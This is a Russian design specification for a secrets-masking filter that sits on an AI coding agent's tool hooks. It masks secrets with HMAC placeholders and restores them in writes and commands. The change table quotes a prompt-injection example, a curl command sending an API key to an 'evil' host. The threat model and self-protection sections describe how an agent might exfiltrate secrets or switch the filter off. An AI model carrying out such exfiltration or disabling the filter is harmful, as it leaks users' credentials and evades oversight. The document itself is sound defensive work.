

# F1: Фильтр чувствительных данных на границе инструментов

> Статус: DRAFT — ждёт ответов на `## Questions` и результатов спайка (фаза 0)
> Тип: полная спека
> Модуль E1: `f1` (`modules/f1-secrets-filter/`), режимы `off | detect | enforce`
> Зависит от: E1   Блокирует: X1 (маскирование задач внешним исполнителям), O1 (проверки демона)

## Goal

Опциональный фильтр, который не пускает секреты и ПДн в контекст модели, заменяя их
стабильными плейсхолдерами, и при этом возвращает оригиналы туда, где они нужны для работы:
в файлы на диске и в выполняемые команды.

## User value

- Можно работать с репозиториями, где лежат пароли Firebird, `ISC_PASSWORD`, токены ботов,
  ключи бирж, внутренние хосты кластера, — не отправляя их значения провайдеру модели.
- Работоспособность не страдает: модель видит `<API_KEY_3f9a1c02>`, правит файл с этим
  плейсхолдером, а на диск уходит настоящий ключ.
- Режим `detect` показывает, **что бы** замаскировалось, не меняя поведения, — чтобы
  откалибровать ложные срабатывания до включения.

Закрыто, когда: на behave-наборе с подложенными секретами модель не видит ни одного
оригинала, файлы и команды получают оригиналы, `Edit` по маскированному тексту применяется
корректно, при `off` поведение OS не меняется, задержка хуков измерена и укладывается в
бюджет (см. Acceptance).

## Non-goals

- **Не песочница против злонамеренного агента.** Фильтр защищает от утечки в контекст
  модели (к провайдеру, в телеметрию модели), а не от модели, которая целенаправленно
  выносит секрет наружу. Модель может составить команду, которая после демаскирования уйдёт в
  сеть; от этого — политика демаскирования (ниже) и существующий `block-dangerous-bash`, но не
  гарантия. Процесс под тем же пользователем Windows может прочитать всё, что может
  прочитать клиент хука.
- **Не прокси для трафика Claude.** `ANTHROPIC_BASE_URL` не трогаем (жёсткое ограничение
  брифа, PF-18). Фильтр работает только на хуках.
- Не прячет код, структуру проекта, имена файлов (кроме совпавших с правилами).
- Не маскирует изображения: скриншоты, PDF, отрендеренные как картинки, вывод
  браузерных MCP с изображениями. Регулярные выражения по пикселям не работают.
- Не закрывает каналы в обход инструментов (см. «Известные дыры»): там — только обнаружение
  и предупреждение.
- Не заменяет существующие хуки OS `protect-secrets` / `block-dangerous-bash` — работает
  рядом с ними.

## Current state

- В OS уже есть три секрет-хука (`.claude/hooks/README.md`): `protect-secrets` (deny пути
  `.env` и т.п. и секретов в записываемом контенте), `block-dangerous-bash` (секреты прямо в
  команде), `scan-prompt-secrets` (блок промпта). Все три **запрещают**, ни один не
  **маскирует**. Правил — 15, сверены с gitleaks (`hook-lib.sh`). Журнал
  `~/.claude/logs/hook-events.jsonl` хранит sha256 входа, не сам секрет.
- Хуки OS — пары `.ps1`/`.sh`; Windows — основной путь. Сканирование в PowerShell/bash на
  каждый вызов — десятки процессов `grep -P` (HANDOFF §5: эвалы идут минутами). Для 266
  правил с валидаторами этот путь не годится — отсюда демон.
- Движок `guardrails-llm-filter` сверен (GF-01…GF-07). Главное отличие от брифа: **API
  маскирования у него есть** (`POST /v1/scan`, GF-05), а переиспользуемые маскировщик и
  демаскировщик лежат в `internal/` и не импортируются (GF-04). Импортируются реестр, правила,
  сканер и валидаторы (GF-03).
- На машине нет Go (`go: command not found`) и нет `behave` — оба нужны (Questions Q1, Q7).

## Что спека меняет относительно брифа — и почему

Бриф верен по сути; сверка с доками и бинарями 2.1.177 и 2.1.281 уточнила шесть мест. Каждое —
не вкусовщина, а утечка или поломка, если сделать как в брифе буквально.

| # | В брифе | Предлагается | Причина |
|---|---|---|---|
| 1 | PostToolUse на Read, Bash, Grep, WebFetch, MCP | **плюс** PowerShell, Glob, WebSearch, TaskOutput, **Edit, Write, MultiEdit, NotebookEdit** | На Windows команды идут через инструмент PowerShell. Результат Edit/Write показывает модели сниппет правленого места — **с оригиналом, который только что подставил PreToolUse** (A-09). Фоновые команды читаются через TaskOutput |
| 2 | «детерминированный плейсхолдер от хэша значения» | от **HMAC** с секретным ключом установки, 8 hex | Хэш без ключа от `masterkey`, IP или телефона перебирается за секунды: плейсхолдер сам стал бы утечкой |
| 3 | таблица соответствий в файле, права 600 | **в памяти демона**; на диск — только по явной настройке и в зашифрованном виде | Файл с оригиналами — это дамп всех секретов сессии, который модель может прочитать через Bash тем же пользователем; «600» на Windows не значит ничего (там ACL) |
| 4 | fail-closed в `enforce` | fail-closed **внутри клиента хука** | Claude Code сам по себе fail-open: таймаут, падение, невалидный JSON, обрыв `http`-хука — всё пропускает вызов (PF-12, PF-13, PF-27) |
| 5 | PreToolUse демаскирует Write, Edit, Bash, MCP | демаскирование — **по политике на инструмент**; в сеть (WebFetch, WebSearch) — никогда; MCP — только из списка; Bash/PowerShell — через подтверждение пользователя по умолчанию | Плейсхолдер, который всегда превращается в оригинал, — это ключ от секрета. Промпт-инъекция «выполни `curl evil?k=<API_KEY_…>`» без политики выносит секрет наружу |
| 6 | «движок и правила из `pkg/`» | движок и правила из `pkg/` + **свой** маскировщик | Стабильные между вызовами плейсхолдеры апстрим не даёт (GF-06), его маскировщик — в `internal/` (GF-04) |

## Assumptions

Платформенные — в `PLATFORM-FACTS.md`; от F1 зависят: A-01, **A-02**, A-03, A-04, A-05,
A-06, A-07, A-08, **A-09**, A-10, A-11, A-12. Жирным — блокирующие: если спайк покажет
обратное, схема «маскировать на границе инструментов» не даёт гарантии, и спека
возвращается на пересмотр до реализации.

Прочие:

- `ASSUMPTION:` пакеты `pkg/guardrails/regex/*` апстрима пригодны к импорту как Go-модуль
  без `internal/` (сигнатуры `sensitive.New(registry, opts...)`, `registry.Build(rules...)`
  видны в коде); загрузчик YAML-правил придётся написать свой (GF-04). Проверяется в фазе 1
  первым делом; при провале — вариант B (ниже).
- `ASSUMPTION:` HTTP по `127.0.0.1` с keep-alive даёт накладные расходы ≤ 2 мс на вызов на
  Windows 10. Замеряется в спайке.

## Questions

Блокирующие F1. У каждого — вариант по умолчанию, если ответа нет.

1. **Q1. Сборка Go.** Демон на Go, а Go на машине нет. (а) поставить Go (`winget install
   GoLang.Go`) и собирать локально; (б) собирать в GitHub Actions форка и скачивать релизный
   `.exe` (скачивание бинаря — отдельное согласие каждый раз). По умолчанию — (а).
2. **Q2. Хранение таблицы соответствий.** В брифе — файл 600. Предлагается: только память
   демона; после перезапуска демона плейсхолдеры восстанавливаются повторным чтением файла
   (HMAC стабилен). По умолчанию — только память.
3. **Q3. Политика демаскирования для Bash/PowerShell.** `ask` — пользователь видит
   настоящую команду и подтверждает (надёжно, но лишний клик на каждую команду с
   плейсхолдером); `passthrough` — обычный поток разрешений; `deny`. По умолчанию — `ask`.
   И отдельно: каким MCP-серверам разрешено демаскирование (по умолчанию — никаким).
4. **Q4. Вариант движка.** A — свой демон с импортом `pkg/` апстрима (рекомендуется);
   B — апстрим как есть рядом, демон ходит в его `/v1/scan`. По умолчанию — A, B как запасной.
5. **Q5. Значения для своих правил.** Нужны: суффиксы внутренних доменов и диапазоны IP
   кластера; считать ли чувствительными пути к `.fdb` и имена серверов в строке
   подключения Firebird или только пароль; формат ключей Bybit, который реально
   используется (HMAC-ключи или RSA). По умолчанию — маскируются только учётные данные, пути
   и хосты нет; Bybit — по ключевым словам (см. правила).
6. **Q6. Где флаг режима.** Бриф: «глобально или на проект». Предлагается: на проект
   (`.claude/os-modules/f1/state.json`), плюс значение по умолчанию для новых проектов в
   `stateDir` модуля. Глобальный флаг в `~/.claude/settings.json` не пишем (HANDOFF §2).
   По умолчанию — так.
7. **Q7. behave.** Ставим `behave` в venv модуля (`modules/f1-secrets-filter/.venv`), не
   глобально? По умолчанию — да, venv.

## GitHub research

| Repo | License | Что берём | Риск |
|---|---|---|---|
| [cloud-ru-tech/guardrails-llm-filter](https://github.com/cloud-ru-tech/guardrails-llm-filter) | Apache-2.0 | реестр и сканер `pkg/guardrails/regex/*`, валидаторы (СНИЛС, ИНН, ОГРН, Luhn, IBAN, IP), 266 правил YAML, модель режимов detect/enforce, типы данных 1–6 | 0.1.x, API не стабилен (GF-01); при обновлении — прогон behave-набора. Обязательства Apache-2.0: `LICENSE` + `NOTICE` апстрима в модуле, пометка изменённых YAML |
| gitleaks (через каталог апстрима) | MIT | 220 правил уже сгенерированы апстримом | те же, что у апстрима |
| существующие хуки OS | MIT | формат журнала (sha256, `session_id`), парность, фикстуры `registry/evals/secret-pattern-fixtures.json` как стартовый корпус | — |

Отклонено: писать свой набор правил с нуля (266 выверенных правил с валидаторами контрольных
сумм не повторить разумными силами); сканировать в PowerShell/bash (задержка, нет
валидаторов).

## Official docs checked

PF-02…PF-16, PF-19…PF-21, PF-24, PF-26, PF-27; бинари 2.1.177 и 2.1.281 для PF-02, PF-05, PF-14, PF-20.

## Architecture (дизайн)

### Компоненты



- **`os-maskd serve`** — долгоживущий демон на Go: держит скомпилированный реестр правил и
  таблицы соответствий в памяти. Демон нужен, как и сказано в брифе, потому что хук
  срабатывает на каждый вызов: компиляция 266 регулярок и валидаторов на каждый вызов —
  лишние десятки миллисекунд, а таблица соответствий должна жить между вызовами.
- **`os-maskd hook <event>`** — клиент хука. **Тот же бинарь**, а не PowerShell-скрипт:
  холодный старт `powershell.exe` на Windows сам по себе дороже всего бюджета задержки,
  а Go-бинарь в exec-форме (PF-14) стартует без шелла. Клиент: читает режим, читает JSON со
  stdin, выбирает адаптер инструмента, зовёт демон, печатает JSON хука. Если демона нет —
  запускает его отсоединённым процессом и ждёт `/health` до 300 мс.
- **Адаптеры инструментов** — в клиенте: знают, какие поля входа демаскировать и какие поля
  вывода маскировать, и собирают ответ **строго в форме вывода инструмента** (PF-19), потому
  что несовпавшая форма молча игнорируется и модель получает оригинал (PF-02).

Почему не `http`-хук прямо в демон (без процесса-клиента): он дешевле по задержке, но
обрыв соединения и не-2xx — это «пропустить» (PF-13), т.е. fail-open по конструкции.
В `enforce` это неприемлемо. В `detect` — допустимо и рассматривается как оптимизация после
замеров.

### Варианты движка

| | A: свой демон + `pkg/` апстрима (рекомендуется) | B: апстрим рядом + `/v1/scan` |
|---|---|---|
| Процессы | один `os-maskd` | `os-maskd` + `guardrails-llm-filter` |
| Код апстрима | импорт Go-модуля, свои маскировщик и загрузчик YAML | не трогаем вообще |
| Задержка | один HTTP-переход | два перехода, плюс JSON апстрима |
| Поверхность | наш API с токеном | + неаутентифицированный admin-API апстрима на localhost, который может выключить правила (GF-05); требует фиктивный `UPSTREAM_BASE_URL` |
| Обновления | правим при смене API `pkg/` | бесплатно |

Выбор A; B — запасной, если импорт `pkg/` не взлетит (Q4).

### Плейсхолдеры

Формат: `<{TYPE}_{hex8}>`, например `<API_KEY_3f9a1c02>`, `<SNILS_0b77e4d1>`,
`<FIREBIRD_PASSWORD_91c0aa3e>`.

- `TYPE` — имя плейсхолдера из правила (`masking.placeholder` в YAML апстрима).
- `hex8` — первые 8 hex от `HMAC-SHA256(K_install, TYPE ‖ 0x00 ‖ value)`.
  `K_install` — 32 случайных байта, создаются при установке, лежат в `stateDir` с ACL
  «только владелец» (Windows) / `0600` (POSIX), в проект не попадают.
- **Стабильность:** одно и то же значение даёт один и тот же плейсхолдер в любом вызове,
  любой сессии и после `--resume`. Это же бережёт кэш промптов: повторное чтение файла даёт
  байт-в-байт тот же текст.
- **Коллизии:** если в сессии `hex8` уже занят другим значением — удлиняем до 12, потом 16
  hex. Вероятность на 8 hex при сотне значений одного типа ≈ 1e-6, но проверка обязательна:
  коллизия = подстановка чужого секрета.
- **Многострочные значения** (PEM-ключи): плейсхолдер повторяется построчно с номером части
  `<PRIVATE_KEY_ab12cd34#1/27>` … `#27/27`, чтобы не менять число строк: модель ссылается на
  номера строк из Read, а сдвиг сломал бы её ориентацию. Демаскирование склеивает части
  только при полном наборе, иначе — отказ.
- **Литералы плейсхолдеров в исходниках** (например, документация самого F1) не трогаются
  маскированием; при демаскировании заменяются только плейсхолдеры, известные таблице этой
  сессии.

### Таблица соответствий

- Ключ — `session_id` из входа хука. Сабагенты — в той же таблице, если подтвердится A-01;
  если нет — по `agent_id` строится ссылка на родительскую таблицу при `SubagentStart`.
- Хранится **только в памяти демона** (Q2). Нет файла — нечего читать модели через Bash.
- Жизненный цикл: создаётся первым маскированием; удаляется на `SessionEnd` (любая причина);
  страховочный TTL — 24 ч бездействия (на случай падения процесса, когда `SessionEnd` не
  пришёл, PF-11); демон при старте начинает с пустых таблиц.
- После потери таблицы (перезапуск демона, `--resume` после `SessionEnd`) плейсхолдеры в
  контексте модели становятся «неизвестными» до повторного чтения источника — HMAC
  восстановит ту же пару. Политика неизвестных плейсхолдеров — ниже.

### Потоки

**PostToolUse (маскирование).** Адаптер извлекает текстовые поля вывода → `/v1/mask` →
собирает вывод той же формы → `updatedToolOutput`. Первый раз в сессии, когда что-то
замаскировано, добавляется `additionalContext` (≤ 400 символов): «Значения вида
`<TYPE_xxxxxxxx>` — замаскированные настоящие значения. Используй их дословно при правке
файлов и в командах: они будут восстановлены. Не пытайся угадать оригинал».

**PreToolUse (демаскирование).** Адаптер находит плейсхолдеры в полях входа → по политике
инструмента → `/v1/unmask` → `updatedInput` (весь вход целиком, PF-05) **без
`permissionDecision`** (обычный поток разрешений) или с `"ask"`. Никогда не `"allow"`:
фильтр не должен молча снимать запросы разрешений.

Политика по умолчанию:

| Инструмент | Поля | Демаскирование | Неизвестный плейсхолдер |
|---|---|---|---|
| Edit | `old_string`, `new_string` | да | в `old_string` — пропустить (может быть литералом в файле); в `new_string` — `deny` «перечитай файл» |
| Write | `content` | да | `deny` — иначе на диск ляжет плейсхолдер вместо ключа |
| MultiEdit | `edits[].old_string/new_string` | да | как Edit |
| NotebookEdit | `new_source` | да | как Write |
| Bash, PowerShell | `command` | `ask` (Q3) | `deny` |
| Grep | `pattern` | нет по умолчанию, опция | пропустить |
| WebFetch, WebSearch | — | **никогда** | пропустить; журнал «плейсхолдер уходит в сеть» |
| `mcp__*` | все строковые поля | только серверы из `unmask.mcp_allow` (по префиксу имени, PF-25) | `deny` для разрешённых, пропустить для остальных |
| остальные | — | нет | пропустить |

**UserPromptSubmit.** Переписать промпт нельзя (PF-07). В `enforce`: если в промпте найден
секрет — `decision:"block"` с `reason`, где названы сработавшие типы, и советом положить
значение в файл (тогда модель увидит его маскированным). Промпты `/os-filter …`
пропускаются всегда — иначе при сбое демона нельзя было бы выключить фильтр. Сверх брифа:
если в промпте есть `@путь` (A-11), клиент сканирует упомянутый файл и блокирует, если в нём
секреты, с советом «попроси Claude прочитать файл инструментом Read» — это закрывает
главную дыру PF-08 для случая, когда пользователь сам упоминает файл.

**SessionStart.** Проверить/запустить демон; в `enforce` просканировать то, что грузится
мимо хуков (PF-09): `CLAUDE.md`, `.claude/rules/*`, файлы авто-памяти проекта — и при
находках вернуть `systemMessage` пользователю: «в CLAUDE.md найден `<тип>`: он уже в
контексте, фильтр это не закрывает».

**SessionEnd.** `DELETE /v1/sessions/{id}`. Укладываемся в 1.5 с (PF-11): один запрос по
localhost.

**Покрытие.** Отдельный PostToolUse-хук с матчером `*` в режиме «только журнал»: на
инструментах **без адаптера** сканирует `tool_response` и пишет в аудит «секрет прошёл
через неадаптированный инструмент X». Так новые инструменты Claude Code (например, после
обновления) не станут тихой дырой — O3 превращает эту запись в пробу.

### Режимы

| Режим | PostToolUse | PreToolUse | UserPromptSubmit | Журнал |
|---|---|---|---|---|
| `off` | пустой вывод, код 0 | то же | то же | нет |
| `detect` | вывод не меняется | вход не меняется | не блокирует | «было бы замаскировано: rule, type, count» |
| `enforce` | маскирует | демаскирует по политике | блокирует | всё |

`off` проверяется **до** чтения stdin и до обращения к демону — это требование E1
(«выключенный модуль не меняет поведение»).

### Поведение при сбое

`on_failure` в конфиге; по умолчанию `enforce → closed`, `detect → open`.

| Событие | closed |
|---|---|
| PostToolUse | вывод заменяется заглушкой той же формы: «[F1: вывод скрыт — os-maskd недоступен: <причина>. Команда: /os-filter detect]». Если форма инструмента неизвестна — такого инструмента нет в матчере (см. «Покрытие»), значит и заменять нечего |
| PreToolUse | `deny` с причиной |
| UserPromptSubmit | `block` с причиной, кроме `/os-filter …` |

Внутренний таймаут клиента на запрос к демону — 1.5 с (меньше таймаута хука), чтобы клиент
успел сам выдать `deny`/заглушку, а не быть убитым Claude Code с fail-open (PF-12). Любая
ошибка сериализации в клиенте — тоже путь `closed`: невалидный JSON = fail-open (PF-27).

### Управление: `/os-filter`

`.claude/commands/os-filter.md` (из модуля). Аргументы: `off | detect | enforce | status`.

- Переключение выполняется строкой `` !`os-maskd mode set $ARGUMENTS --project .` `` в теле
  команды — то есть **при раскрытии команды пользователем**, а не вызовом Bash от модели
  (A-10). Сам бинарь `os-maskd` — в `.claude/os-modules/f1/bin/`.
- **Самозащита.** PreToolUse фильтра отклоняет вызовы модели, которые:
  Bash/PowerShell-команда содержит `os-maskd` с `mode`/`stop`/`session`, путь `stateDir`
  или `.claude/os-modules/f1/state.json`; Edit/Write/Read по этим путям. Это best-effort
  (обфускацию команды не поймать), поэтому второй слой:
- **Подпись флага.** `state.json` содержит `mode` и `mac = HMAC(K_install, mode ‖ changedAt)`.
  Клиент проверяет подпись; невалидная или отсутствующая при наличии `K_install` → режим
  считается `enforce` + запись в аудит + `systemMessage`. Переписать флаг в `off` без ключа
  нельзя; прочитать ключ модели мешает самозащита (и опять best-effort — см. Security model).

### Свои правила

Формат — тот же YAML, что у апстрима (`rule_id`, `regex` RE2, `keywords`, `entropy`,
`validators`, `masking.capture_groups`, `masking.placeholder`), тип данных `CUSTOM` (6).
Два файла:

- `modules/f1-secrets-filter/config/rules.custom.yaml` — **формы** без значений (регулярки
  Firebird, ISC_*, Bybit), коммитятся в форк.
- `stateDir/rules.local.yaml` — **значения** (внутренние хосты, IP кластера), не
  коммитятся. Для точных значений есть правило «по отпечатку»: в файле хранится не хост, а
  `HMAC(K_install, host)`; демон вытаскивает кандидатов общим шаблоном (FQDN, IPv4) и
  сверяет отпечаток. Список внутренних имён тогда не лежит открытым текстом даже локально.

Минимальный набор из брифа (формы; точные регулярки — в фазе 4 с фикстурами):

| rule_id | Что ловит | Что маскирует | Заметки |
|---|---|---|---|
| `custom.firebird.dsn_password` | `Password=…;` в строке подключения FirebirdClient (`User=SYSDBA;Password=…;Database=…;DataSource=…`), `password=` в `jdbc:firebirdsql://…?user=…&password=…` | значение пароля | ключевые слова `firebird`, `fdb`, `gds`, `DataSource` |
| `custom.firebird.dsn_location` | `host[/port]:путь.fdb`, `inet://host:port/путь` | хост и путь — только если Q5 = «да» | по умолчанию выключено |
| `custom.firebird.isc_env` | `ISC_USER=…`, `ISC_PASSWORD=…` в `.env`, `export`, `set`, `$env:ISC_PASSWORD=` | значение `ISC_PASSWORD`; `ISC_USER` — только если ≠ `SYSDBA` | |
| `custom.firebird.cli_password` | `isql`/`gbak`/`gsec`/`gfix`/`nbackup` с `-pas[sword] X`, `-p X`, `-user SYSDBA -password X` | значение пароля | |
| `custom.firebird.masterkey` | `masterkey` **только** в позиции пароля (после `password`, `-pas`, `ISC_PASSWORD`, `Password=`) | значение | слово «masterkey» в тексте документации не трогаем — иначе ложные срабатывания |
| `custom.cluster.host` / `custom.cluster.ip` | внутренние FQDN и IP по отпечаткам + суффиксы/CIDR из `rules.local.yaml` | значение | значения от владельца (Q5); тип `IP_ADDRESSES` апстрима включается отдельно |
| `api_keys.telegram-bot-api-token.gl` | токен бота | значение | **уже есть в правилах апстрима** — только проверить фикстурой |
| `custom.bybit.api_key` / `custom.bybit.api_secret` | ключ/секрет рядом с `bybit`, `BYBIT_API_KEY`, `BYBIT_API_SECRET`, конфиг ccxt `'bybit': {'apiKey': …, 'secret': …}` | значения | у ключей Bybit нет уникального префикса — без привязки к ключевым словам правило даст лавину ложных срабатываний; RSA-ключи Bybit ловятся правилом PEM |

### Аудит

`stateDir/audit.jsonl`, одна строка на событие, где что-то сработало:

```json
{"ts":"2026-10-01T12:00:00Z","session_id":"…","agent_id":null,"event":"PostToolUse",
 "tool":"Read","mode":"enforce","action":"masked",
 "hits":[{"rule_id":"custom.firebird.dsn_password","data_type":"CUSTOM","count":2}],
 "took_ms":7}
```

Без оригиналов и **без хэшей оригиналов**: хэш низкоэнтропийного значения — та же утечка
(см. таблицу изменений, п. 2). Плейсхолдеры в журнал тоже не пишутся. Ротация — по размеру
(10 МБ × 5). Формат совместим с существующим `hook-events.jsonl` по полям `ts`, `session_id`.

### Сосуществование с хуками OS

- Хуки OS не переписывают вход/выход — конфликта A-03 с ними нет. Конфликт возможен с
  будущими модулями (C2 «сжатие» тоже захочет `updatedToolOutput`) — его ловит E1
  (`rewrites`).
- `protect-secrets` видит маскированный вход (все хуки получают исходный вход модели
  параллельно, PF-06) — то есть «секрет в записываемом файле» он не увидит, если модель пишет
  плейсхолдер. Это ожидаемо: запись оригинала в файл, где он и был, — штатный путь F1.
- `scan-prompt-secrets` и промпт-хук F1 делают одно и то же; в `enforce` модуль
  рекомендует выключить первый (он беднее по правилам), в `off`/`detect` — оставить.

## API contracts (интерфейсы и форматы)

### Демон (HTTP, `127.0.0.1:<port>`, заголовок `Authorization: Bearer <token>`)

Порт и токен — в `stateDir/daemon.json` (ACL «только владелец»). Без токена — `401`.

| Метод | Тело запроса | Ответ |
|---|---|---|
| `GET /v1/health` | — | `{status, version, instanceId, rules:{builtin, custom, loaded_at}, sessions, uptime_s}`; `instanceId` совпадает с записанным в `daemon.json` — так doctor (O1) отличает наш демон от чужого процесса на том же порту. Единственный метод без токена, ничего не раскрывает |
| `POST /v1/mask` | `{session_id, agent_id?, event, tool, texts:[…], data_types?:[…], dry_run?:bool}` | `{texts:[…], hits:[{rule_id,data_type,count}], new_placeholders:int, took_ms}` |
| `POST /v1/unmask` | `{session_id, agent_id?, tool, texts:[…]}` | `{texts:[…], resolved:int, unknown:[<плейсхолдер>…], took_ms}` |
| `DELETE /v1/sessions/{id}` | — | `204` |
| `POST /v1/rules/reload` | — | `{builtin, custom, errors:[…]}` (задел под E2) |

`dry_run:true` — режим `detect`: считает попадания, таблицу не пополняет, `texts` не
возвращает.

### Клиент хука

Проводка (Windows, `hooks.windows.json` модуля; `.sh`-варианта нет — один Go-бинарь на все
платформы, парность обеспечивается сборкой под три ОС):

```json
{
  "PostToolUse": [{
    "matcher": "Read|Bash|PowerShell|Grep|Glob|WebFetch|WebSearch|TaskOutput|Edit|Write|MultiEdit|NotebookEdit|mcp__.*",
    "hooks": [{ "type": "command",
                "command": "${CLAUDE_PROJECT_DIR}\\.claude\\os-modules\\f1\\bin\\os-maskd.exe",
                "args": ["hook", "post"], "timeout": 5 }]
  }],
  "PreToolUse": [{
    "matcher": "Edit|Write|MultiEdit|NotebookEdit|Bash|PowerShell|Grep|Read|mcp__.*",
    "hooks": [{ "type": "command", "command": "…os-maskd.exe", "args": ["hook", "pre"], "timeout": 5 }]
  }],
  "UserPromptSubmit": [{ "hooks": [{ "type": "command", "command": "…os-maskd.exe", "args": ["hook", "prompt"], "timeout": 5 }] }],
  "SessionStart":     [{ "hooks": [{ "type": "command", "command": "…os-maskd.exe", "args": ["hook", "start"], "timeout": 10 }] }],
  "SessionEnd":       [{ "hooks": [{ "type": "command", "command": "…os-maskd.exe", "args": ["hook", "end"], "timeout": 2 }] }]
}
```

`Read` в матчере PreToolUse — только ради самозащиты (запрет читать `stateDir`), не ради
демаскирования.

Подстановка `${CLAUDE_PROJECT_DIR}` в exec-форме для проектных хуков — A-13; если не
работает, `os-module enable` пишет абсолютный путь.

Ответы клиента — строго один JSON-объект (PF-27). Примеры:

```json
{"hookSpecificOutput":{"hookEventName":"PostToolUse",
  "updatedToolOutput":{"type":"text","file":{"filePath":"C:\\p\\app.conf","content":"password=<FIREBIRD_PASSWORD_91c0aa3e>\n","numLines":1,"startLine":1,"totalLines":1}}}}
```

```json
{"hookSpecificOutput":{"hookEventName":"PreToolUse",
  "updatedInput":{"file_path":"C:\\p\\app.conf","old_string":"password=masterkey","new_string":"password=newpass"}}}
```

### CLI

`os-maskd serve | status | mode get|set <off|detect|enforce> --project P | rules check <file> |
rules test <rule-id> <sample> | fingerprint <value>` (последнее — для `rules.local.yaml`,
печатает HMAC, значение не логирует) `| bench`.

### Конфиг `config/default.json` (переопределяется `.claude/os-modules/f1/config.json`)

```json
{
  "schema": 1,
  "data_types": ["CREDENTIALS","API_KEYS","ACCESS_TOKENS","PERSONAL_DATA","CUSTOM"],
  "on_failure": { "enforce": "closed", "detect": "open" },
  "unmask": { "shell": "ask", "grep": false, "mcp_allow": [] },
  "prompt": { "block_on_secret": true, "scan_at_mentions": true },
  "allowlist": { "values_fingerprints": [], "paths": ["**/*.lock", "**/*.min.js"] },
  "session_ttl_hours": 24,
  "client_timeout_ms": 1500
}
```

`IP_ADDRESSES` по умолчанию выключен: IP в конфигах и логах — главный источник ложных
срабатываний, а внутренние IP кластера ловит своё правило по отпечаткам.

## Data model / migrations

| Что | Где | Права | Жизнь |
|---|---|---|---|
| `K_install` | `stateDir/key` | ACL/0600 | до `uninstall --purge` |
| токен и порт демона | `stateDir/daemon.json` | ACL/0600 | пересоздаётся при старте |
| таблицы соответствий | память демона | — | до `SessionEnd` / TTL / рестарта |
| флаг режима | `.claude/os-modules/f1/state.json` | обычные | подписан HMAC |
| свои значения | `stateDir/rules.local.yaml` | ACL/0600 | пользователь |
| аудит | `stateDir/audit.jsonl` | ACL/0600 | ротация |

`stateDir` = `~/.claude/logs/os-modules/f1/` (E1). Схемы версионированы полем `schema`.

## Security model

Защищаем от:
- попадания секретов и ПДн из файлов, вывода команд, веб-страниц и MCP в контекст модели и
  дальше — к провайдеру и в его логи;
- случайного вывода секрета моделью в ответе пользователю (она его не знает);
- утечки через плейсхолдер (HMAC с ключом, не хэш).

Не защищаем от (и пишем это в README модуля):
- каналов мимо хуков: `@`-файлы (частично закрыто сканом промпта), `CLAUDE.md`/правила/
  память (только предупреждение), MCP-ресурсы через `@` (A-06), `! cmd` (A-04), картинки;
- злонамеренной модели или промпт-инъекции, которая строит команду выноса: политика `ask`
  для shell показывает пользователю настоящую команду, WebFetch/WebSearch не демаскируются —
  но это снижение риска, а не гарантия;
- локальных процессов под тем же пользователем (они видят файлы проекта и так);
- телеметрии Claude Code, которая снимает вывод до хука (PF-04), и debug-лога при запуске с
  `--debug` (PF-26) — туда попадут оригиналы из `updatedInput`;
- транскрипта на диске — **до закрытия A-02**.

## Known holes (задокументировать в README модуля)

| Дыра | Статус | Что делаем |
|---|---|---|
| `@`-файлы в промпте (PF-08) | подтверждена доками | скан упомянутого файла промпт-хуком и блок (A-11); плюс рекомендация deny-правил `Read(...)` для `.env` и т.п. |
| `CLAUDE.md`, правила, авто-память (PF-09) | подтверждена доками | скан на `SessionStart`, предупреждение пользователю |
| MCP-ресурсы через `@server:uri` | A-06 | проверить спайком; если подтвердится — только предупреждение в README |
| `! cmd` в строке ввода | A-04 | проверить спайком; если подтвердится — README |
| Хуки в сабагентах | **работают** (PF-10); общая ли таблица — A-01 | спайк; при отрицательном ответе — связывание по `SubagentStart` |
| Результат Edit/Write возвращает оригинал | A-09 | PostToolUse на Edit/Write (уже в дизайне); спайк подтверждает, что этого хватает |
| Транскрипт и `--resume` | **A-02 — блокирующее** | спайк фазы 0; если в транскрипт пишется оригинал — пересмотр спеки |
| Фильтр не прячет код | by design | README |
| Ложные срабатывания: хэши, UUID, base64, IP в конфигах | ожидаемы | `detect` перед `enforce`, `allowlist`, `IP_ADDRESSES` выключен по умолчанию; ложное срабатывание стоит понимания, но не корректности: запись и команды получают оригинал обратно |
| Форма вывода нового инструмента не знакома адаптеру | риск после обновлений | инструмента нет в матчере → хук «покрытия» пишет в аудит → проба O3 |

## Risks

| Риск | Вероятность | Влияние | Митигация |
|---|---|---|---|
| A-02: оригиналы в транскрипте, возвращаются при `--resume` | неизвестна | **критическое** | спайк до реализации; go/no-go |
| Адаптер отдаёт вывод не той формы → Claude Code молча берёт оригинал (PF-02) | средняя | **критическое, тихое** | golden-тесты адаптеров на реальных `tool_response` (A-05); после каждого вывода клиент валидирует форму по своей схеме; проба O3 после обновления Claude Code |
| Утечка через демаскирование в команду (инъекция) | средняя | высокое | политика `ask` для shell, запрет для сети, самозащита, аудит «плейсхолдер ушёл в сеть» |
| Задержка на каждом вызове инструмента | средняя | среднее | Go-клиент в exec-форме, демон с тёплым реестром, `keywords`-префильтр апстрима; бюджет в Acceptance |
| Ложные срабатывания ломают понимание кода | высокая в начале | среднее | неделя в `detect`, разбор аудита, allowlist |
| Модель «чинит» плейсхолдер как шаблон | средняя | среднее | `additionalContext` при первом маскировании; `deny` на неизвестный плейсхолдер в Write |
